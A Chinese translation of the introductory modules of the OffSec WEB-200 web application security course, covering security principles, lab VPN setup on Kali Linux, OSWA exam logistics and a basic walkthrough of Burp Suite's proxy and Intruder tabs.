# 课程简介

WEB-200课程大纲提供了全面的网页应用安全课程，涵盖了XSS、SQL注入、SSRF等关键漏洞。课程包括实践实验，重点介绍使用Burp Suite等工具进行网页应用枚举、测试和利用，为专业评估做好准备

[TOC]


# 1、WEB-200 课程概述

在本学习模块中，我们将涵盖以下学习单元：

- WEB-200 总体介绍
- 如何学习
- 安全概念简介
- 实用帮助

欢迎学习 WEB-200。本课程专为希望学习如何执行基础专业 Web 应用程序评估的学生而设计。课程材料将有助于阐明恶意行为者针对 Web 应用程序所使用的攻击和技术。请注意，具备基础的 Linux、网络和脚本编写技能将对本课程的学习有显著帮助。

本课程为希望继续学习高级 Web 攻击与漏洞利用（Advanced Web Attacks and Exploitation，WEB-300）的学生提供基础知识。

## 1.1 WEB-200 学习成功要点

本学习单元涵盖以下学习目标：

- 理解围绕应用程序安全的一些通用概念
- 认识到一名成功的应用程序安全专业人员所具备的独特思维模式
- 理解应用程序安全先决知识的支柱

WEB-200 是一条为刚接触 Web 应用程序安全或需要温故知新的人员设计的学习路径。本课程旨在解释在信息安全（Information Security）、渗透测试（Penetration Testing）或应用程序安全（Application Security）领域开启更长远旅程所需的基础概念。

在应用程序评估期间，我们将扮演智能对手的角色，测试各种应用程序的安全缺陷。在某些情况下，我们可能会利用（exploit）这些缺陷，以确定潜在威胁的完整范围，尽管该过程可能是另一个更大范围渗透测试的一部分。无论哪种情况，我们都将就如何修复我们发现的缺陷提出建议。

因为我们在模拟智能对手的行为，并且在对目标了解有限的角度下进行操作，我们必须像攻击者一样思考，采用成长型思维模式（growth mindset），在逆境中迎难而上，不断分析我们的环境，并持续扩充我们的知识库。在本节中，我们将讨论这些要点中的每一个。

作为一名应用程序安全专业人员，在模拟对各种应用程序的攻击时，我们将扮演恶意且智能的对手角色。

这就引出了一个问题：应用程序安全专业人员究竟是从事攻击性（offensive）[1]还是防御性工作。简而言之，答案是两者兼而有之。

举例来说，我们可以设想一个中世纪君主建造城堡的类比。如果君主得知敌方拥有能够投掷巨石的投石车，君主可能会建造更厚的城墙。同样，如果敌方配备了梯子，君主可能会为部队提供将梯子推下城墙的工具。在这个场景中，君主可以通过了解潜在攻击者的技术和思维模式来建立更好的防御。

同样地，在评估的每个步骤中，我们必须考虑攻击者的视角、工具和策略（tactics），并学着预测他们下一步可能会做什么。用行业术语来说，我们应该培养更好的安全思维（security mindset）。[2] 随着我们更好地了解目标系统和网络中的弱点，我们就能更好地模拟各种攻击链（attack chains），从而为客户提供更好的安全建议。

除了安全思维外，我们还必须考虑形成鲜明对比的固定型思维模式（fixed mindset）和成长型思维模式（growth mindset），并认识到它们将如何影响我们作为安全专业人员的工作效率。

拥有固定型思维模式的人认为，他们的技能、天赋或学习能力是“固定不变的”。拥有这种思维模式的人不了解成长带来的各种好处。另一方面，拥有成长型思维模式的人认为心智能力是灵活且适应性强的，并且一个人的学习能力可以随着时间的推移而增长。

陷入固定型思维模式的攻击者将使用一组可预测的工具和技术，且往往以可预测的方式使用。相比之下，拥有成长型思维模式的攻击者将适应其环境，在方法上展现出灵活性，并从错误中吸取教训。

拥有固定型思维模式的防御者通常只能检测到最可预测的攻击。然而，拥有成长型思维模式的防御者能够适应以前未见过的攻击方法，并提升其技能以对抗更高级的攻击者。

既然技术娴熟的对手采用成长型思维模式，我们也必须效仿。有很多实用的方法可以做到这一点，但在接下来的小节中，我们将探讨其中几种。

Offensive Security 团队坚信 Try Harder（更加努力）的思维模式。当我们考虑到在失败的时刻有两种潜在的应对方式时，这一点能得到最好的总结。我们要么将失败视为无法避免的死胡同并接受它，要么将其视为成长的机会，尝试从不同的角度思考问题，相应地调整我们的方法和策略，并在此过程中磨练我们的技能。显然，后者就是 Try Harder 的思维模式，并且与成长型思维模式相契合。

这种思维模式是信息安全行业取得成功的关键，正因如此，在应对我们课程中较难的练习时，它通常是一项必备条件。

践行 Try Harder 的一个具体方法就是放慢脚步，退后一步，深呼吸，然后从另一个角度评估问题。例如，我们的一些练习包含提示。请尽可能多花点时间忍住不去看这些提示。在简单地认为自己已经走投无路之前，更深入地挖掘问题。

在实际的现场评估（live assessment）中，没有“免费提示”可用。当您在本课程中 Try Harder 时，您将启动一种充满挑战的成长型思维模式。然而，坚持不懈直到找到解决方案会产生深深的满足感，并经常伴随著名的肾上腺素“飙升”（buzz），这正是让这个领域如此值得投入的原因。

然而，当您正在学习基础知识时，如果您已经付出了最大努力，请毫不犹豫地联系我们。这绝对没有什么可丢脸的。毕竟，您正在接受培训，而我们就在这里提供帮助。不要让过度的挫败感在您辉煌的职业生涯起步之前就让您灰心丧气！

在下一节中，我们将在讨论各种研究技术时，探讨 Try Harder 思维模式的一些实践方面。

我们不可能在这里提出一个包罗万象的故障排除（troubleshooting）流程，但我们可以推荐以下简单的两步法：收集数据（collect data）并进行研究（do research）。

收集数据仅仅意味着我们必须退后一步，评估现状。这通常意味着我们必须退后以获得更高层次的视角，彻底思考问题，并全面审查任何数据、信息以及（特别是）来自我们的工具的输出或错误。如果一个工具生成了输出或错误信息，请仔细并彻底地阅读它。很多时候，在评估最紧张的阶段，即使是经验丰富的安全专业人员也会匆匆略读数据并产生误读，导致他们浪费数小时去排查错误的问题。在评估现状时，我们必须关注实际事实，并利用我们掌握的信息来展示对组织的潜在影响。

此外，我们需要花时间检查我们的语法（syntax）并阅读工具手册。一个简单的语法错误或工具的不正确使用可能会导致各种意想不到的结果。

明智地利用每个学习模块中包含的脚注。许多脚注参考资料包含了有助于故障排除的支持文档。每个学习模块的侧边栏将始终提供我们称之为“智慧结晶（wisdom nuggets）”的内容，要成为一名高效的 Web 应用程序评估员（Web Application Assessor），应该对这些内容进行研究并充分理解。

如果我们花时间收集尽可能多的信息，我们在进行研究时就可以期待更好的结果。

在研究方面，在代码审查（code review）、安全审计（security audit）或渗透测试期间，最简单的方法莫过于使用 Google（或注重隐私的人士使用的 DuckDuckGo）在互联网上搜索我们尚不理解或不熟悉的术语和概念。

在搜索新术语时，如果不能浏览前十个搜索结果，至少要尝试浏览前三个。

最后，请记住，当您参与本课程时，我们就在这里并乐意为您提供帮助。不要犹豫，随时联系我们！


## 1.2 安全基础概念入门

本学习单元 (Learning Unit) 涵盖以下学习目标 (Learning Objectives)：

- 理解 CIA 三元组 (CIA triad) 及其含义
- 理解该领域的其他关键术语 (key terms) 和独特特征

在接下来的小节中，我们将讨论各种对安全专业人员 (security professionals) 至关重要的基础安全原则 (security principles)。

全面描述安全基础设施 (security infrastructure) 元素的一种方法是通过 CIA 三元组 (CIA triad) 的视角。它描述了三个原则：机密性 (Confidentiality)、完整性 (Integrity) 和可用性 (Availability)。

在保护任何资产 (asset) 时，都必须考虑这些原则中的每一个，因为大多数（尽管不是全部）针对计算机系统和网络的攻击都会威胁到这些元素之一。让我们更详细地讨论每一个原则。

如果一个系统只能由被明确允许访问的个人访问，那么该系统就是机密的 (Confidential)。例如，只要密码只有所有者知道，密码就被认为是机密的。如果黑客 (hacker) 窃取或猜出了密码并且能够访问该账户，这将构成对机密性的攻击。针对机密性的常见攻击包括通过 SQL 注入 (SQL Injection)[3] 进行的数据库外发泄露 (database exfiltration) 以及不安全的直接对象引用 (Insecure Direct Object Referencing, IDOR)[4]。

如果一个系统只存储所有者打算让它存储的信息，那么该系统就具有完整性 (Integrity)。在上述例子中，仅仅通过猜测密码登录到用户的账户并不属于对完整性的攻击。然而，如果攻击者 (attacker) 上传或删除数据，这就构成了对系统完整性的潜在攻击。针对完整性的一种常见攻击是任意代码执行 (arbitrary code execution)[5]。

如果应该访问系统的用户能够进行访问，那么该系统就被认为是可用的 (Available)。再次考虑上述场景。攻击者已经获得了对用户账户的访问权限，并上传了他们选择的数据。如果攻击者接着更改了用户的密码并阻止他们登录，那么这现在也将构成对账户可用性的攻击。针对可用性的一种常见攻击是拒绝服务 (denial of service)[6]。

在接下来的部分中，我们将讨论在参与本课程时需要考虑的其他重要安全原则。

关于安全原则的探讨足以构成一门完整的学科[7][8]，其内容远超本入门学习模块 (Learning Module) 所能涵盖的范围。然而，在继续前进之前，我们还应该讨论几个高层级的原则。

最小特权原则 (Principle of Least Privilege)[9] 规定，系统的每个部分（特别是用户账户和程序代码）只应被授予所需的最低特权。这有助于确保该组件不会轻易被滥用以向攻击者授予提升的特权 (escalated privileges)。有效地应用这一原则可以显著减少组件的攻击面 (attack surface)。

开放式安全 (Open Security)[10] 是一个看似违反直觉的原则，它指出系统的安全性不应依赖于保密性 (secrecy)。换句话说，即使攻击者完全了解系统的安全实现方式，攻击者仍应被挫败。系统中有一些元素应该是保密的，例如用户凭证 (user credentials)。但是，如果构成系统的功能和算法是开放的，并且已经过安全社区 (security community) 的审查，那么它通常对攻击具有更强的弹性。

纵深防御 (Defense in Depth)[11] 提倡在系统的尽可能多的层面上添加防御，以便如果一层被绕过 (bypassed)，另一层仍可能防止完全渗透 (full infiltration)。在信息安全背景之外的纵深防御示例可以是：使用电子密码打开车库，然后是可以用钥匙打开的插销门锁，接着是声控内部警报系统。

## 1.3 WEB-200 入门准备

本学习单元涵盖以下学习目标：

- 了解学生可用的基本工具
- 了解如何进行“动手实践 (hands-on)”操作材料
- 了解如何连接到 VPN (Virtual Private Network)

现在我们已经讨论了信息安全的一些基本概念，让我们花点时间讨论一下学习环境。在本节中，我们将讨论课程的结构，并概述连接到实验室环境 (lab environment) 的过程。

本课程及其各个学习模块 (Learning Modules) 的结构相对简单明了。在宏观层面上，我们引入了几个学习模块，每个学习模块包含多个学习单元 (Learning Units)。每个学习单元都以解释开始，其中我们强调了一些最重要的概念和想法，并介绍了学习模块背后的理论。

一些学习单元包含练习 (exercises)。在练习中，我们可能会要求您回答一个简单的问题。在更高级的练习中，我们将要求在一台机器上完成一项操作，并要求提供一个信息标志 (flag)。标志通常格式化为“OS{InsertFlagValueHere}”。

例如，练习可能会写道：“登录到位于 192.168.50.1 的机器，并从用户 Samantha 的桌面上检索标志 (flag)”。完成这些步骤后，我们应该会找到一个标志文件 (flag file)，也许叫做 flag.txt，其中将包含基于文本的标志，然后我们可以将其复制并粘贴到答案字段中提交。

这种类型的练习需要主动学习 (active learning)，这是非常有效的。它要求直接应用技能和进行实践，并且是 OffSec 学习方法 (learning methodology) 的关键。

随着我们在课程中的推进，练习是按顺序呈现的。这意味着它们应该按顺序完成，因为练习通常建立在彼此的基础之上。

最后请注意，课程材料中呈现的 IP 地址 (IP addresses) 并不一定反映 Offensive Security 实验室中的 IP 地址。不要尝试一字不差地复制示例。始终根据您特定的实验室配置 (lab configuration) 调整示例。在启动机器后，每台部署机器的特定 IP 地址将直接显示在 Web 门户用户界面 (web portal UI) 中。

在接下来的部分中，随着我们将重点转向实验室环境，我们将讨论这一点。

练习是在我们实验室环境中运行的目标机器 (target machines) 上完成的。正如我们将在这部分详细讨论的那样，实验室环境由几个组件构成：

- 一台 Kali Linux 虚拟机 (virtual machine, VM)
- 在线门户 (Online Portal)
- 一组在实验室中运行的目标机器 (target machines)
- 从 Kali 虚拟机到实验室环境的 VPN 连接

让我们花点时间在宏观层面上讨论一下这些组件。

首先，本课程需要安装 Kali Linux。Kali Linux[12] 是一个操作系统 (operating system)（就像 Windows 或 macOS），它附带了一组专门用于信息安全活动的特定工具。由于它是开源的 (open source)，因此 Kali Linux 可以免费使用。

我们强烈建议在虚拟机 (VM)[13] 中安装 Kali，这允许我们在一个操作系统中运行另一个操作系统。虽然我们可以将 Kali 安装到专用机器上，但将 Kali 与我们的主操作系统“并排”安装会更方便、更高效，以便我们可以轻松访问两个操作系统可用的所有工具。这可以通过虚拟机软件 (virtual machine software) 来实现。

例如，我们可能坐在办公桌前，使用的是运行 Windows 的台式机或运行 macOS 的笔记本电脑。我们可以在 Windows 机器上安装 VMware Workstation Player，或者在 Mac 上安装 VMware Fusion，以允许我们安装 Kali Linux VMware 镜像 (image)。当安装了这个虚拟镜像后，Kali 将在一个窗口中与我们的主操作系统一起运行，如果需要也可以全屏运行。在这台机器中运行的 Kali Linux 将可以访问网络并拥有自己的 IP 地址，其行为就像安装在专用机器上一样。

从术语的角度来看，运行 Windows 或 macOS 的系统是我们的“宿主机 (host machine)”，而 Kali 是“本地 (local)”或“客户机 (guest) VM”。

我们为 WEB-200 提供的 VMware 镜像是 Kali Linux 的默认 64 位构建版本。我们建议使用 Offensive Security 虚拟机镜像下载页面[14]上提供的最新 VMware 镜像。请注意，虽然 VirtualBox 镜像、Hyper-V 镜像或 Kali 的专用安装应该具有相同的工作方式，但我们只能为提供的 VMware 镜像提供支持。

一旦我们使用 Kali Linux 设置了虚拟机，我们将使用提供的凭证从 Kali 连接到在线门户 (Online Portal)。如果我们点击学习管理系统 (Learning Management System) 登陆页面右上角的 下载 VPN (Download VPN) 按钮，我们将获得连接所需的配置。此外，应使用 OpenVPN 来连接此配置。登录后，我们将可以访问学习材料。接下来，我们将从我们的 Kali 机器连接到 VPN，从而允许我们访问实验室，只要我们正在使用它，该实验室就是专门分配给我们的。这创造了一个独特的环境，每个学生都可以按照自己的节奏学习，而无需担心打断其他学生或被其他学生打断。

即使每个实验室都是私有的，将实验室视为敌对环境 (hostile environment) 也很重要，我们不应该将敏感信息存储在用于连接实验室的 Kali Linux 虚拟机上。严格禁止学生对学生 (Student-to-student) 的 VPN 流量，这可能导致被终止对课程及其材料的访问权限。无论如何，我们应该始终保持安全思维 (security mindset)。至少，我们应该停止不必要的服务并更改我们 Kali Linux 系统上的默认密码和密钥。

在下一节中，我们将设置将我们连接到实验室的 VPN 连接。

一旦我们从本地 Kali VM 连接到在线门户，我们需要连接到 VPN。要做到这一点，我们将访问主页并点击 Web 界面右上角的 下载 VPN (Download VPN)。浏览器将下载一个 ovpn 文本文件。

我们将使用 Kali Linux 终端 (terminal) 来连接到 VPN。单击 Kali 虚拟机 (VM) 左上角的黑色终端图标，将呈现如下屏幕：

```
┌──(kali㉿kali)-[~]
└─$   
```

**代码清单 1 - Kali 终端**

如果在设置期间我们选择了不同的用户名，我们的提示符 (prompt) 将包含该名称：

```
┌──(ArtVandelay㉿kali)-[~]
└─$   
```

**代码清单 2 - 带有不同用户名的 Kali 终端**

在某些情况下，您的屏幕可能与课程材料中显示的有所不同。这很少会造成问题，但我们通常会指出这些潜在的不一致之处。

这就是命令提示符 (command prompt)，它用于接受我们的用户命令。为了简单起见，我们将通过 `C+p` 切换到一个不太复杂的终端版本，如代码清单 3 所示。

```
kali@kali:~$ 
```

**代码清单 3 - 切换到单行命令提示符**

接下来，我们将把重点放在 VPN 包（我们下载的 `.ovpn` 文件）上。我们应该将其下载到了 Kali 虚拟机中，但如果它被下载到了宿主机 (host machine) 上，我们要么将其复制过来，要么从 Kali 中重新下载。让我们使用 `updatedb` 和 `locate` 来查找该文件。

```
kali@kali:~$ sudo updatedb
[sudo] password for kali:

kali@kali:~$ locate universal.ovpn
/home/kali/offsec/universal.ovpn
```

**代码清单 4 - 查找 .ovpn 文件**

请注意，我们使用 `sudo` 命令来调用 `updatedb`，因为这个特定命令需要提升的权限 (elevated permissions)。`updatedb` 命令会创建或更新一个数据库，`locate` 命令利用该数据库在整个文件系统中查找文件。`sudo` 命令可能需要我们输入密码。请注意，当我们输入密码时，光标不会移动，也不会出现星号 (*) 字符。我们将输入密码并按回车键（原文中的 `I` 在此指代回车执行）。

根据此输出，我们使用的文件名是 `universal.ovpn`。我们可以检查浏览器的下载历史记录，以确定文件的确切名称。

找到 `.ovpn` 文件后，我们将使用 `cd` 切换到其所在的目录，在本例中为 `/home/kali/offsec`：

```
kali@kali:~$ cd /home/kali/offsec          
kali@kali:~/offsec$ 
```

**代码清单 5 - 使用 cd 更改目录**

尽管此命令不会产生任何输出（除非我们把命令输错了），但我们可以使用 `ls` 来检查 `.ovpn` 文件，该命令会列出此目录中的文件。

Bash

```
kali@kali:~/offsec$ ls
universal.ovpn
```

**代码清单 6 - 使用 ls 列出文件内容**

我们现在已准备好连接到 VPN。我们将使用 `openvpn` 并在其后加上 `.ovpn` 文件的全名进行连接。

同样，我们必须使用 `sudo`，因为 `openvpn` 需要提升的权限。请注意，`sudo` 会将我们的密码缓存 (caches) 一小段时间。如果我们在第一次执行 `sudo` 命令后不久就输入这第二个 `sudo` 命令，我们将不需要重新输入密码。

```
kali@kali:~/offsec$ sudo openvpn universal.ovpn 
2021-06-28 10:20:12 Note: Treating option '--ncp-ciphers' as  '--data-ciphers' (renamed in OpenVPN 2.5).
2021-06-28 10:20:12 DEPRECATED OPTION: --cipher set to 'AES-128-CBC' but missing in --data-ciphers (AES-128-GCM). Future OpenVPN version will ignore --cipher for cipher negotiations. Add 'AES-128-CBC' to --data-ciphers or change --cipher 'AES-128-CBC' to --data-ciphers-fallback 'AES-128-CBC' to silence this warning.
2021-06-28 10:20:12 OpenVPN 2.5.1 x86_64-pc-linux-gnu [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [PKCS11] [MH/PKTINFO] [AEAD] built on May 14 2021
2021-06-28 10:20:12 library versions: OpenSSL 1.1.1k  25 Mar 2021, LZO 2.10
2021-06-28 10:20:12 TCP/UDP: Preserving recently used remote address: [AF_INET]192.95.19.165:1194
2021-06-28 10:20:12 UDP link local: (not bound)
2021-06-28 10:20:12 UDP link remote: [AF_INET]192.95.19.165:1194
2021-06-28 10:20:12 [offensive-security.com] Peer Connection Initiated with [AF_INET]192.95.19.165:1194
2021-06-28 10:20:13 TUN/TAP device tun0 opened
2021-06-28 10:20:13 net_iface_mtu_set: mtu 1500 for tun0
2021-06-28 10:20:13 net_iface_up: set tun0 up
2021-06-28 10:20:13 net_addr_v4_add: 192.168.49.115/24 dev tun0
2021-06-28 10:20:13 WARNING: this configuration may cache passwords in memory -- use the auth-nocache option to prevent this
2021-06-28 10:20:13 Initialization Sequence Completed

```

代码清单 7 -连接到实验室 VPN

清单 7 的输出结果乍一看可能令人望而生畏
。现在，只需注意输出的最后一行是
“初始化序列完成”——这表明我们已
成功连接到 VPN。

我们必须保持此命令提示符窗口打开。关闭它会断开
VPN 连接。我们可以通过单击*“文件”* > *“新建窗口”*来打开另一个终端窗口。



现在我们可以把 VPN 终端窗口移开，暂时忽略它。

现在我们已经连接到 VPN 并准备好了终端窗口，让我们返回门户网站，点击练习主机虚拟机旁边*播放按钮*。虚拟机 启动时，机器名称旁边会出现倒计时。虚拟机启动后，会显示该练习主机的 IP 地址。至此，我们的环境已准备就绪，可以开始课程了。实验结束后，我们可以通过在建立 VPN 连接的窗口中按 C+C 来断开 VPN 连接。现在让我们断开 VPN会话。

**关于 OSWA 考试**

OSWA认证考试在一个私有实验室中模拟真实网络环境，其中包含少量存在漏洞的Web应用程序。考试及格分数为70分。获得已认证管理员会话访问权限、获取远程shell或从服务器提取敏感信息均可获得分数。考试期间，该环境完全专属于您，您有23小时45分钟的时间完成考试。为确保认证的公正性，考试将采用远程监考。您需要在考试开始前 15 分钟到达考场，完成身份验证和其他考前准备工作。为此，请点击屏幕右上角 Offsec 培训库中的“考试”选项卡。在考前验证过程中，您将获得VPN 连接包。

考试结束后，您将有额外 24 小时的时间来撰写考试报告并记录您的发现。考试报告的质量和准确性将作为评分标准，因此请尽可能详细地描述，并确保您的所有发现均可复现。一旦您的考试文件被接受，我们将对您的考试进行评分，您将在十个工作日内收到成绩。如果您达到及格分数，您将收到一封包含链接的电子邮件，您可以通过该链接领取您的徽章。提交您的详细信息后几分钟内，您将收到来自 Accredible 的另一封电子邮件，其中包含指向您的新数字徽章和证书的链接。[[15\]](#fn-15-75cda2e6654bb95e)如果您未达到及格分数，我们将通知您，您可以使用相应的链接购买认证重考机会。我们强烈建议您仔细安排考试时间，选择一个48小时的窗口期，确保在此期间不会受到任何外界干扰或安排其他事务。此外，请注意，考试名额有限，先到先得，因此最好尽早安排考试，
以确保您理想的日期能够被选中。有关考试的更多信息，我们建议您花些时间仔细阅读 OSWA 考试指南。[[16\]](#fn-16-75cda2e6654bb95e)

**OSWA考试尝试**

要预约 OSWA 考试，请前往您的考试安排日历。该日历位于 OffSec 培训库的课程考试页面下。您可以在这里查看考试有效期，并选择您偏好的日期和时间进行考试。


请注意，如果考试实验室在该时间段内已满，您将无法选择考试开始时间，因此我们建议您尽快安排考试。如需更多信息，请访问我们的支持页面。[[17\]](#fn-17-75cda2e6654bb95e)我们希望您已经对如何完成本学习路径有了清晰的了解。虽然大多数学习模块都是独立设计的，但我们建议您从工具学习模块开始。如果您已经具备相关经验，欢迎您继续学习任何感兴趣的学习模块。祝您学习之旅一切顺利！

# 2、常用工具

在本学习模块 (Learning Module) 中，我们将涵盖以下学习单元：

- 开始 (Getting Started)
- Burp Suite
- Nmap
- Gobuster
- Wfuzz
- Hakrawler
- Shells
- 字典 (Wordlists)

在本学习模块中，我们将探讨渗透测试人员 (penetration testers) 在执行 Web 评估时常用的工具。

正如据传亚伯拉罕·林肯所说的那样：“如果给我六个小时砍倒一棵树，我会用前四个小时磨快斧头。”在本模块中，我们将磨快我们的“斧头”，以便在进行 Web 评估时尽可能高效。我们将介绍的工具包括 Burp Suite、Nmap、Gobuster、Wfuzz 和 Hakrawler。我们还将学习如何使用 Kali 自带的现有字典以及像 SecLists 这样的开源字典，并学习如何自己生成字典。

## 2.1 工具入门

本学习单元涵盖以下学习目标：

- 学习如何编辑 `/etc/hosts` 文件
- 了解如何测试并确认我们的 host 文件更改是否生效
- 对代理 (proxies) 建立基本的了解

为了访问我们将在此学习模块中使用的目标服务器 (target servers)，我们在我们的 Kali Linux 虚拟机 (VM) 上创建了名为 `offsecwp` 和 `execsandbox` 的 `/etc/hosts` 文件条目。

在开始工作之前，请务必从学生在线门户 (student online portal) 还原 (revert) `offsecwp` 或 `execsandbox` 虚拟机。

```
kali@kali:~$ cat /etc/hosts

...
192.168.50.101 offsecwp
192.168.50.102 execsandbox
```

**代码清单 1 - 为 offsecwp 设置我们的 /etc/hosts 文件**

一旦我们连接到 WEB-200 VPN，我们将获得一个 TUN0 网络接口 (network interface)，我们可以使用 `ip a` 命令查看它。分配给 TUN0 接口的地址将是 `192.168.119.X`，其中 `X` 是 1 到 255 之间的某个值。每次我们重新连接到 VPN 时，我们可能会被分配一个不同的 `X` 值。

此外，WEB-200 环境中的所有实验室机器的地址都将遵循 `192.168.X.Y` 的格式，其中 `X` 与我们 TUN0 地址的第三个八位字节 (octet) 相同，而 `Y` 是与该机器关联的特定八位字节。

在课程材料中，我们将为我们的 TUN0 网络接口以及实验室机器使用不同的 IP 地址。请确保您使用的是通过 TUN0 和 OLP (Online Portal，即在线门户) 分配给您的 IP 地址，以便您可以访问这些机器。

我们可以通过打开 Firefox 并在 URL 地址栏中输入 `http://offsecwp` 来确认我们的 `/etc/hosts` 文件配置是否正常工作。如果网页在我们的浏览器中呈现出来，我们就知道 `/etc/hosts` 的更改正在发挥作用。



如果我们在实验室配置正确，那么一个 WordPress 网站将呈现给我们，如上图所示。

接下来，让我们看一些我们将在整个学习模块中使用的基本工具。

在本节中，我们将讨论一些理论知识，以更好地理解什么是代理 (Proxy)、代理的使用方式，以及我们如何利用它们来漏洞利用 (exploit) 各种服务。我们应该记住，我们主要使用代理进行的工作将集中在 Web 层面。

维基百科 (Wikipedia)[18] 对代理的描述如下：

客户端不是直接连接到能够满足请求资源（如文件或网页）的服务器，而是将请求定向到代理服务器 (proxy server)，由代理服务器评估该请求并执行所需的网络事务 (network transactions)。[18-1]

本质上，代理 (proxy) 是一个服务器应用程序 (server application)，它充当客户端到服务器请求之间的中间人 (man-in-the-middle) 或中介 (intermediary)。[18-2]

## 2.2 Burp Suite 渗透套件

本学习单元涵盖以下学习目标：

- 学习如何利用 Burp Suite 的内置浏览器
- 了解如何熟练使用“代理 (Proxy)”选项卡和“拦截 (Intercept)”功能
- 了解如何使用“重放器 (Repeater)”和“入侵者 (Intruder)”

我们将从讨论 Burp Suite[19] 开始本节，它是最受欢迎的渗透测试工具之一。Burp Suite 是一个集成的 Web 应用程序安全测试和审计 (auditing) 平台。它不仅仅是一个单一的工具，而是由多个专门针对 Web 应用程序测试的工具组成。从勾画应用程序早期轮廓直到执行攻击，Burp Suite 将成为我们的首选工具之一。

让我们打开默认安装在 Kali Linux 上的 Burp Suite。

首次启动后，我们首先会注意到一个警告，提示 Burp Suite 尚未在我们的 JRE（Java 运行时环境）上进行过测试。由于 Kali 团队总是会在操作系统随附的 Java 版本上测试 Burp Suite，因此我们可以放心地忽略此警告。



我们将避免在项目选项 (Project Options) 上花费过多时间，并点击“下一步 (Next)”继续。免费版本的 Burp Suite 不允许使用项目，因此我们暂时可以跳过此步骤。让我们点击“下一步 (Next)”进入更新页面。

因为我们现在不想进行更新，所以可以点击“关闭 (Close)”，然后点击“下一步 (Next)”。请注意，您可能不会收到更新通知。



接着我们会收到一个选择配置的请求，如下图所示。

Burp Suite 允许我们根据工作流 (workflow) 的需求导出和导入配置。由于这是我们首次启动 Burp，让我们保持默认设置，然后点击“启动 Burp (Start Burp)”。

Burp Suite 提供了基于 Chromium 构建的原生内置 web 浏览器 (web browser)[20]。让我们先来熟悉一下这个工具。

启动 Burp Suite 后，我们将点击“代理 (Proxy)”选项卡，然后点击名为“打开浏览器 (Open Browser)”的按钮。



接下来，会打开一个类似于下图所示的窗口。



在“拦截 (Intercept)”按钮处于未激活状态时，Burp 的代理将自动存储我们通过内置浏览器发送的请求。在接下来的小节中，我们将进一步讨论 Burp Suite 中显示的选项卡。

我们可以继续练习本节探讨的概念，方法是配置 Web 浏览器（例如 Firefox），使其通过 Mozilla Firefox 内部的代理配置，在 8080 端口上与 Burp Suite 通信。

在我们继续学习 Burp Suite 中的其他一些工具之前，让我们演示一下如何配置另一个浏览器使用 Burp Suite 作为代理。在 Firefox 中，我们可以通过导航到 `about:preferences#advanced`，向下滚动到“网络设置 (Network Settings)”，然后点击“设置 (Settings)”来完成此操作。

在这里我们将选择“手动 (Manual)”选项，设置适当的 IP 地址和监听端口。在我们的例子中，代理和浏览器驻留在同一主机上，因此我们将使用环回接口 (loopback interface) 并指定端口 8080。然而，如果我们计划使用代理来拦截来自多台机器的流量，我们应该在此设置中使用运行代理机器的公网 IP 地址。

最后，我们还要勾选“将此代理服务器用于所有协议 (Use this proxy server for all protocols)”选项，以确保在测试目标应用程序时能够拦截每一个请求。



请注意，一旦我们以这种方式配置 Firefox，我们将需要运行 Burp Suite 才能访问任何网站。要停止使用 Burp Suite 作为代理 (proxy)，我们必须返回连接设置并选择“使用系统代理设置 (Use system proxy settings)”或“无代理 (No proxy)”。或者，我们可以使用各种浏览器附加组件 (browser add-ons)（例如 FoxyProxy）在代理服务器设置之间进行切换。

接下来，我们将探索“代理 (Proxy)”选项卡。Burp Suite 的这一部分管理 Web 流量的拦截 (interception)，这是 Burp Suite 本身的核心功能。在我们的应用程序评估期间，我们将经常切换到此窗口以开启 (on) 或关闭 (off) 拦截功能。

如果拦截功能设置为开启状态，Burp 将捕获通过浏览器的所有流量。但是，如果将其关闭，我们的请求仍将存储在“HTTP 历史 (HTTP History)”选项卡中，我们可以在以后访问它。



默认情况下，Burp 配置为拦截请求。通过将我们的 Web 浏览器定向到 `http://offsecwp/wp-login.php`，我们将观察到 Burp Suite 在代理 (Proxy) 选项卡中捕获了该请求，如下所示。我们可以单击“转发 (Forward)”按钮以允许该请求在我们的 Web 浏览器中呈现。



我们现在已经验证了 Burp Suite 内部对 `http://offsecwp/wp-login.php` URL 端点 (endpoint) 初始加载的捕获。

让我们单击“HTTP 历史 (HTTP history)”选项卡，它位于“拦截 (Intercept)”选项卡旁边。此选项卡显示我们在此会话 (session) 期间使用的每个项目和端点的历史记录，类似于浏览器存储最近搜索或访问过的域名的方式。

让我们访问 WordPress 网站的各个页面，并查看历史记录是如何显示的。浏览该网站，我们可以观察到“HTTP 历史 (HTTP history)”选项卡是如何相应更新的。



历史选项卡 (history tab) 将按顺序对我们访问过的页面和转发的流量进行排序，如第一列中的“#”指示符所示。该列指示我们访问页面的顺序。在这种情况下，我们的第一个列表是 `/wp-login.php` 的 URI。

我们可以继续浏览该网站，并在浏览器和 HTTP history 选项卡之间切换以观察实际效果。

接下来，让我们检查 Options（选项）选项卡。

我们查看此选项卡有两个重要原因。首先，如果我们需要更改 Burp Suite 绑定的本地端口，我们将在此选项卡中通过单击相应的 Add（添加）或 Edit（编辑）按钮进行管理。

其次，如果我们向下滚动，我们会发现可在拦截请求时使用的 Match and Replace（匹配和替换）功能。此功能允许 Burp Suite 根据启用的规则修改请求和响应。例如，我们可以利用这一点从 Internet Explorer、Google Chrome 或 Firefox 的视角呈现内容，甚至可以模仿移动设备。



熟悉 Proxy > Options 面板中提供的其他配置选项将会很有用。

目前，我们已经介绍了本课程所需的对此选项卡的基本了解。在下一节中，我们将探索另一个名为 Intruder（入侵者）的选项卡。

我们可以通过尝试加载 `http://offsecwp` 端点并在 Proxy（代理）选项卡中捕获数据来进一步练习本节中介绍的概念。在网站上到处点击并捕获其他请求也是很好的做法。

让我们通过单击 Intruder 选项卡，然后单击 Positions（位置）来进一步探索 Burp。



我们可以利用捕获到的请求，使用此选项卡将受控文本以 payload（有效载荷）字典的形式放置在我们选择的位置。虽然此选项卡提供了出色的功能，但我们将面临一些限制，因为 Burp Suite 社区版限制了 Intruder 的一些功能。在本学习模块的稍后部分，我们将学习如何使用免费工具对 payload 位置进行 fuzzing（模糊测试）。

尽管如此，我们还是应该深入了解 Intruder 能为我们做什么。每当我们捕获一个请求时，任何形式的输入（包括 GET 数据、POST 数据和 headers 请求头）都可以使用 Intruder 进行操控。我们可以通过移动两个“§”字符来修改我们的 payload 位置——我们的 payload 将在这两个字符之间传递。

